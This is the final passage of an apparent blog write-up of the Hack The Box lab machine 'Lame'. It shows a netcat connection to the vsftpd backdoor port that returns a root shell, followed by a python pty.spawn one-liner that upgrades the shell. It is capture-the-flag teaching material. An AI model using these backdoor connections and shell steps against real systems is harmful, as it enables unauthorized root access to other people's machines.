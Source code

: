 And we get a shell successfully exploiting `vsftpd`

```sh
┌─[george@parrot]─[~/HTB]
└──╼ $ nc 10.10.10.3 6200
ls
bin
boot
cdrom
dev
etc
home
initrd
initrd.img
initrd.img.old
lib
lost+found
media
mnt
nohup.out
opt
proc
root
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
id
uid=0(root) gid=0(root)

python -c 'import pty;pty.spawn("/bin/bash")'
root@lame:/#


root@lame:/#
root@lame:/#
```

And that's Lame :). Thank you all for taking your time to read my blog post, stay tuned for the next!

Happy hacking!
